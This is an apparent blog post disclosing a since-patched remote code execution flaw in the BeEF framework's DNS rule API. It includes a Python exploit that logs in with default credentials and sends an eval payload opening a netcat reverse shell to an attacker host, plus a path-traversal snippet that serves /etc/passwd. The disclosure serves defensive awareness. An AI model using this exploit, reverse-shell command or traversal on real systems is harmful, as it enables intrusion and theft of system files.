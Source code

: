```yaml
---
categories:
- rce
- beef
- vulnerability
comments: true
date: "2014-05-13T20:57:53Z"
title: rce in browser exploitation framework (BeEF)
---
```


Let me preface this post by saying that this vulnerability is _already fixed_, and was caught pretty early during the development process.  The vulnerability was originally introduced during a merge for the new DNS extension, and was promptly [patched](https://github.com/beefproject/beef/commit/39e672f4207aa46c4c0c11e0ce21cbaa3ab45d71) by antisnatchor on 03022014.  Although this vulnerability was caught fairly quickly, it still made it into the master branch.  I post this only because I've seen too many penetration testers leaving their tools externally exposed, often with default credentials.  

The vulnerability is a trivial one, but is capable of returning a reverse shell to an attacker.  BeEF exposes a REST API for modules and scripts to use; useful for dumping statistics, pinging hooked browsers, and more.  It's quite powerful.   This can be accessed by simply pinging `http://127.0.0.1:3000/api/` and providing a valid token.  This token is static across a single session, and can be obtained by sending a POST to `http://127.0.0.1:3000/api/admin/login` with appropriate credentials.  Default credentials are beef:beef, and I don't know many users that change this right away.  It's also of interest to note that the throttling code does not exist in the API login routine, so a brute force attack is possible here.

The vulnerability lies in one of the exposed API functions, `/rule`.  The code for this was as follows:

```
# Adds a new DNS rule
        post '/rule' do
          begin
            body = JSON.parse(request.body.read)

            pattern = body['pattern']
            type = body['type']
            response = body['response']

            # Validate required JSON keys
            unless [pattern, type, response].include?(nil)
              # Determine whether 'pattern' is a String or Regexp
              begin

                pattern_test = eval pattern
                pattern = pattern_test if pattern_test.class == Regexp
   #             end
              rescue => e;
              end
```

The obvious flaw is the eval on user-provided data.  We can exploit this by POSTing a new DNS rule with a malicious pattern:

```
import requests
import json
import sys

def fetch_default(ip):
    url = 'http://%s:3000/api/admin/login' % ip
    headers = { 'Content-Type' : 'application/json; charset=UTF-8' }
    data = { 'username' : 'beef', 'password' : 'beef' }

    response = requests.post(url, headers=headers, data=json.dumps(data))
    if response.status_code is 200 and json.loads(response.content)['success']:
        return json.loads(response.content)['token']

try:
    ip = '192.168.1.6'

    if len(sys.argv) > 1:
        token = sys.argv[1]
    else:
        token = fetch_default(ip)

    if not token:
        print 'Could not get auth token'
        sys.exit(1)

    url = 'http://%s:3000/api/dns/rule?token=%s' % (ip, token)
    sploit = '%x(nc 192.168.1.97 4455 -e /bin/bash)'

    headers = { 'Content-Type' : 'application/json; charset=UTF-8' }
    data = { 'pattern' : sploit,
             'type' : 'A',
             'response' : [ '127.0.0.1' ]
           }

    response = requests.post(url, headers=headers, data=json.dumps(data))
    print response.status_code
except Exception, e:
    print e

```

You could execute ruby to grab a shell, but BeEF restricts some of the functions we can use (such as exec or system).

There's also an instance of LFI, this time using the server API.  `/api/server/bind` allows us to mount files at the root of the BeEF web server.  The path defaults to the current path, but can be traversed out of:

```
def run_lfi(ip, token):
    url = 'http://%s:3000/api/server/bind?token=%s' % (ip, token)
    headers = { 'Content-Type' : 'application/json'}
    data = { 'mount' : "/tmp.txt",
             'local_file' : "/../../../etc/passwd"
           }

    response = requests.post(url, headers=headers, data=json.dumps(data))
    print response.status_code
```

We can then hit our server at /tmp.txt for `/etc/passwd`.  Though this appears to be intended behavior, and perhaps labeling it an LFI is a misnomer, it is still yet another example of why you should _not_ expose these tools externally with default credentials.  Default credentials are just bad, period.  Stop it.
